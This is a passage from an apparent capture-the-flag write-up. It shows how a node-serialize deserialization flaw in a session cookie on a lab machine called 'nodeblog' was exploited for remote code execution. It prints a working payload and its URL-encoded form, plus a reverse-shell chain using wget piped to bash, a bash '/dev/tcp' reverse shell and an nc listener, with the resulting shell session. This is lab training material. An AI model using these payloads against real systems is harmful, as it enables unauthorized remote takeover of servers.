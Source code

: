 ```js
        return true
    } else {
        return false
    }
}
```
We can see that the database used is `mongoDB` a NoSQL database. Anyway, pay attention to the `node-serialize` module required. 

#### Node unserialze RCE
As we saw previously, the session cookie was serialized, and this source shows the function `authenticated`, which unserializes the cookie and checks if it is valid.
An example could be:
```js
var serialize = require('node-serialize');
var payload = '{"rce":"_$$ND_FUNC$$_function (){require('child_process').exec('ls /', function(error, stdout, stderr) { console.log(stdout) });}()"}';
serialize.unserialize(payload);
```
The `()` at the end provoke that when `unserialize` is called, the content of the payload is executed, in this case `ls /`. Let's give it a try:
```bash
{"rce":"_$$ND_FUNC$$_function (){require('child_process').exec('ping -c 1 10.10.16.2', function(error, stdout, stderr) { console.log(stdout) });}()"}
```
The result of url-encoding this payload is:
```%7b%22%72%63%65%22%3a%22%5f%24%24%4e%44%5f%46%55%4e%43%24%24%5f%66%75%6e%63%74%69%6f%6e%20%28%29%7b%72%65%71%75%69%72%65%28%27%63%68%69%6c%64%5f%70%72%6f%63%65%73%73%27%29%2e%65%78%65%63%28%27%70%69%6e%67%20%2d%63%20%31%20%31%30%2e%31%30%2e%31%36%2e%32%27%2c%20%66%75%6e%63%74%69%6f%6e%28%65%72%72%6f%72%2c%20%73%74%64%6f%75%74%2c%20%73%74%64%65%72%72%29%20%7b%20%63%6f%6e%73%6f%6c%65%2e%6c%6f%67%28%73%74%64%6f%75%74%29%20%7d%29%3b%7d%28%29%22%7d```
Now if we replace this into the `auth` cookie and listen with `tcpdump` to icmp packets:
```bash
❯ sudo tcpdump -i tun0 icmp -n
tcpdump: verbose output suppressed, use -v[v]... for full protocol decode
listening on tun0, link-type RAW (Raw IP), snapshot length 262144 bytes
16:12:13.768871 IP 10.10.11.139 > 10.10.16.2: ICMP echo request, id 1, seq 1, length 64
16:12:13.768891 IP 10.10.16.2 > 10.10.11.139: ICMP echo reply, id 1, seq 1, length 64
```
Success!!, we reached RCE through `node-serialize` module. Now we can obtain a reverse shell with the payload:
```bash
{"rce":"_$$ND_FUNC$$_function (){require('child_process').exec('wget 10.10.16.2:4444/reverse_tcp | cat reverse_tcp | bash', function(error, stdout, stderr) { console.log(stdout) });}()"}
```
We url-encode this payload and listen to the port 3333:
```bash
# Python server terminal
❯ echo "bash -i >& /dev/tcp/10.10.16.2/3333 0>&1" > reverse_tcp
❯ python3 -m http.server 4444
# Our listenting terminal
❯ nc -nlvp 3333
Connection from 10.10.11.139:47020
bash: cannot set terminal process group (855): Inappropriate ioctl for device
bash: no job control in this shell
To run a command as administrator (user "root"), use "sudo <command>".
See "man sudo_root" for details.

bash: /home/admin/.bashrc: Permission denied
admin@nodeblog:/opt/blog$ whoami
whoami
admin
admin@nodeblog:/opt/blog$ hostname -I
hostname -I
10.10.11.139 dead:beef::250:56ff:feb9:5f61
admin@nodeblog:/home$ cd /home/admin
cd /home/admin
bash: cd: /home/admin: Permission denied
admin@nodeblog:/home$ chmod +x /home/admin	
```